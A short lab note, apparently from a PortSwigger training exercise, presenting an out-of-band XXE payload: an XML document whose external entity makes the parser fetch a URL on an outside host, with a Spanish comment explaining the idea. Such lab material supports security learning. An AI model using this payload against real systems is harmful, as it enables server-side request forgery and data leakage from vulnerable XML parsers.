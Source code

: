 Tags: #XXE #PortSwigger 

# Lab 3 XXE-OOB (with Out-of-band) 

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://if1uhmffypde.otify.com/testXXE">]>      
	<root>
		&xxe;
	</root>

	<!-- OOB = Poder colocar una URL externa y tratar de cargar un recurso -->
```